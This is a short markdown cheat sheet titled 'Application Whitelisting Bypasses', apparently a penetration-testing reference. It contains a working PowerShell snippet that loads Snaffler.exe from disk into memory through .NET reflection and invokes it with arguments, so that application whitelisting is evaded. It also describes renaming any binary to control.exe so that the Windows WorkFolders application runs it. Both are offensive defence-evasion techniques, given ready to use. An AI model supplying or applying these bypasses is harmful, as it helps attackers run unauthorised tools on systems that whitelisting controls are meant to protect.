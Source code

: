 # Application Whitelisting Bypasses
## PowerShell Reflection
```
# This technique can in some cases be used to bypass application whitelisting
# The following example runs the tool Snaffler.exe with the argument -s
[byte[]]$bytes = get-content -encoding byte -path C:\Users\username\Desktop\Snaffler.exe
$asm = [System.Reflection.Assembly]::Load($bytes)
$vars = New-Object System.Collections.Generic.List[System.Object]
$vars.Add("-s")
$passed = [string[]]$vars.ToArray()
$asm.EntryPoint.Invoke($null, @(,$passed))
```   
## Using WorkFolders
You can use the Workfolders application in Windows to run any binary in the current directory after renaming it to "control.exe":
![](screenshot.png)

